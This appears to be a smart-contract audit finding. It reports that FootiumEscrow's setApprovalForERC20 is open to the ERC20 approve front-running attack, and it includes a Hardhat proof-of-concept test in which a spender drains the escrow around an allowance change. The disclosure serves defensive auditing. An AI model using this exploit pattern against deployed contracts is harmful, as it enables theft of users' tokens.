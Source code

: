 # The escrow “setApprovalForERC20” function is vulnerable to a sandwich attack

## Summary

The approve() function in ERC20 can cause token theft when a user re-invokes it for a previously authorized spender, as the spender can front-run the transaction and transfer the previous value using **`transferFrom()`** before authorization to transfer the new value is granted.

## Vulnerability Detail

The FootiumEscrow contract's **`setApprovalForERC20()`** function is susceptible to the well-known "approve front-running" attack. In this scenario, if a malicious user or protocol gains an ERC20 allowance, they can take advantage of it by front-running the next approval transaction related to them, allowing them to spend more than intended and essentially steal funds from the club's escrow. This document offers a comprehensive explanation of the matter at hand: https://docs.google.com/document/d/1YLPtQxZu1UAvO9cZ1O2RPXBbT0mooh4DYKjA_jp-RLM/edit

## Impact

Resulting in the loss of funds for the owner of the escrow.

## Code Snippet

The code section in question is: **[[FootiumEscrow.sol/L75-L81]](https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumEscrow.sol#L75-L81)**

Here is a Hardhat proof of concept (PoC) that documents the problem:

```jsx
// Place it in the FootiumClubMinter.test.ts file.
it("Sandwiching approvals", async () => {
  // Set up variables and contracts
  const tokenID1 = 1;
  let user1, user2, token;
  [, , user1, user2] = await ethers.getSigners();
  token = await deployProxy("FootiumToken");

  // Mint a club token for User1
  await expect(clubMinter.mint(user1.address, tokenID1))
    .to.emit(clubs, "Transfer")
    .withArgs(ZERO_ADDRESS, user1.address, tokenID1);

  // Retrieve the FootiumEscrow contract associated with the club token
  const escrowAddress = await clubs.clubToEscrow(tokenID1);
  const escrow = await ethers.getContractAt("FootiumEscrow", escrowAddress);

  // Mint some FootiumTokens and transfer them to the escrow for later use
  await token.mint(escrow.address, "100");

  // User1 approves User2 to spend 80 FootiumTokens from the escrow
  await escrow.connect(user1).setApprovalForERC20(token.address, user2.address, "80");

  // After some time, User2 has not spent any tokens and User1 wants to decrease the allowance to 20 FootiumTokens

  // However, User2 exploits the approval front-running vulnerability and transfers the full 80 tokens to themselves
  await token.connect(user2).transferFrom(escrow.address, user2.address, "80");

  // User1 lowers the allowance to 20 FootiumTokens, unaware that User2 has already taken the full allowance
  await escrow.connect(user1).setApprovalForERC20(token.address, user2.address, "20");

  // User2 takes advantage of the allowance again and spends the remaining 20 FootiumTokens
  await token.connect(user2).transferFrom(escrow.address, user2.address, "20");

  const bal = await token.balanceOf(escrow.address);
  console.log(bal);

  // Confirm that the escrow balance for User1 is now 0 FootiumTokens
  expect(bal).to.be.eq("0");
});
```

## Tool used

Manual Review, Hardhat

## Recommendation

We recommend implementing the solution outlined in the referenced document to address this vulnerability.
